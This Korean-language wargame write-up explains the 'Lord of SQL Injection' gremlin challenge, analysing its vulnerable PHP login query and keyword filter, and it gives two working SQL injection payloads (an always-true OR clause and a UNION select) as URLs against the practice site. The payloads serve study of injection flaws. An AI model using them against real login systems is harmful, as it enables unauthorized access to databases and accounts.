 # Lord of SQL Injection No.1 - gremlin

## 문제 출제 의도

기본적인 SQL Injection을 통해 SQL문을 조작할 수 있는지 확인한다.

## 소스 코드 분석

gremlin 문제의 php 소스 코드는 다음과 같다.
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
-----

```php
  include "./config.php";
  login_chk();
  dbconnect();
```
* config.php 파일을 불러와 적용시킨다. config.php 내부에 login_chk(), dbconnect(), solve() 등 문제 풀이 환경과 관련된 함수가 선언되어 있을 것으로 추정할 수 있다.

* login_chk() 함수는 로그인 된 상태인지 확인하는 기능을 할 것으로 추정할 수 있다.

* dbconnect() 함수는 데이터베이스에 연결하는 기능을 할 것으로 추정할 수 있다.

## include
* php의 include에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [PHP: include - Manual](http://php.net/manual/kr/function.include.php)

-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
* GET방식으로 id와 pw를 받으며, id나 pw에 `prob`, `_`, `.`, `(`, `)` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

## preg_match()
```php
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
```
* preg_match() 함수는 문자열에서 정규표현식 매치를 수행한다.

* 반환값은 매치된 횟수이며, 0 또는 1 이다. 이는 처음 매치 후 검색을 중지하기 때문이다.

* 따라서 `preg_match('/prob|_|\.|\(\)/i', $_GET[id])` 는 `$_GET[id]`에서 정규표현식 `'/prob|_|\.|\(\)/i'` 을 매치한다.

* 즉, `if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");` 이 문장을 통해 `$_GET[id]`에 `prob`, `_`, `.`, `(`, `)` 중 하나라도 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* php의 preg_match() 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
    * [PHP: preg_match - Manual](http://php.net/manual/kr/function.preg-match.php)

## 정규 표현식 (Regular Expression)
* 정규 표현식은 특정한 규칙을 가진 문자열의 집합을 표현하는 데 사용하는 형식 언어이다.

* 정규 표현식에 대해 잘 모르겠다면 다음 링크를 참고하자.
    * [정규 표현식 - 위키백과](https://ko.wikipedia.org/wiki/%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)
    * [정규 표현식 테스트 사이트 RegExr](http://regexr.com/)

-----

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
echo "<hr>query : <strong>{$query}</strong><hr><br>";
$result = @mysql_fetch_array(mysql_query($query));
if($result['id']) solve("gremlin");
```
* 받은 id와 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "0"을 제외한 어떤 문자열이든 들어있음'이다.

-----

## Solution
    
1. WHERE 조건절 무력화

    GET 방식으로 정보를 전송하기 위해 다음과 같이 URL의 맨 끝에 쿼리 스트링을 붙인다.

    ```
    http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
    ```

    ```sql
    select id from prob_gremlin where id='' or 1=1 -- -' and pw=''
    ```

    이는 WHERE 조건절을 항상 참으로 만들어 prob_gremlin 테이블의 모든 행의 id 열을 불러오도록 하므로 문제가 풀린다.

2. UNION 구문 이용

    ```
    http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' union select 'a'-- -
    ```
    ```sql
    select id from prob_gremlin where id='' union select 'a'-- -' and pw=''
    ```

    이는 결국 $result['id']에 'a'가 들어가도록 하므로 문제가 풀린다.